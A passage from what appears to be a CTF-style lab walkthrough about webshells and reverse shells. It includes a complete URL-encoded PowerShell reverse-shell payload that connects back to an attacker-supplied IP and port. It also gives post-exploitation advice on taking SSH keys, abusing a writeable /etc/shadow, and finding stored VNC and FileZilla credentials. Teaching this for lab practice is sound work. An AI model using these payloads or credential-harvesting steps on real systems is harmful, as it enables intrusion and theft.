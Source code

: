 
Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

### Answer the questions below

Read the WebShells information.


## Task 12 - Next Steps

<ins>Ok, we have a shell. Now what?</ins>

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.
